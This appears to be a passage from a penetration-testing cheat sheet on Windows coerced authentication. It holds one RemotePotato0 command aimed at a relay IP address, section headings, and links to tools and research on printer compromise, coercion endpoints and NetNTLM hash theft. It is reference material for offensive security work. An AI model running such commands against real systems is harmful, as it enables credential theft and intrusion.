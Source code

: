 			RemotePotato0.exe -r 192.168.83.130 -p 9998 -s 2

##### Response over LDAP

* Print Compromise (Weak/Default Credentials)
	* [https://github.com/rvrsh3ll/SharpPrinter](https://github.com/rvrsh3ll/SharpPrinter)

##### Response over HTTP/s


## Needs Research

* The author of the "coercer.py" PoC (p0dalirius) has generated many potential forced authentication endpoints and prepared a near-working PoC for the majority of the endpoints. However, a little research and triage is needed in each case to make the attacks viable.
	* p0dalirius GitHub: Windows Coerced Authentication Methods -<br />[https://github.com/p0dalirius/windows-coerced-authentication-methods](https://github.com/p0dalirius/windows-coerced-authentication-methods)
* [https://research.nccgroup.com/2021/01/15/sign-over-your-hashes-stealing-netntlm-hashes-via-outlook-signatures/](https://research.nccgroup.com/2021/01/15/sign-over-your-hashes-stealing-netntlm-hashes-via-outlook-signatures/)
* [https://pwnshift.github.io/2021/08/12/hashes.html](https://pwnshift.github.io/2021/08/12/hashes.html)